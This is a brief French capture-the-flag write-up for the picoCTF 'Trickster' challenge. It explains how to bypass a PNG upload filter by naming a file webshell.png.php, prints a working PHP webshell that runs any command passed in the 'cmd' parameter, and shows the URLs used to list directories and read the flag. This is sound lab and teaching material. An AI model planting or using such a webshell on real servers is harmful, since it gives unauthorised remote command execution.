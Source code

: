 # Trickster

Le challenge nous donne une URL vers un site nous demandant de telecharger un fichier PNG

En regardant le code de la page, nous pouvons voir un filtre sur le type `png`



aide détaillée: https://gddaredevil.medium.com/how-i-hid-a-webshell-in-a-png-image-and-achieved-rce-trickster-picoctf-de3952b9866r

autre ref :
* https://rcenetsec.com/hide-malicious-shell-in-image-file/
* https://book.hacktricks.xyz/pentesting-web/file-upload

code du webshell 

```shell
cat > webshell.png.php <<EOF
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>
EOF
```

une fois le fichier charger, il suffit d'utiliser l'URL `/uploads/webshell.png.php?cmd=ls ../` et `/uploads/webshell.png.php?cmd=cat ../XXX.txt`

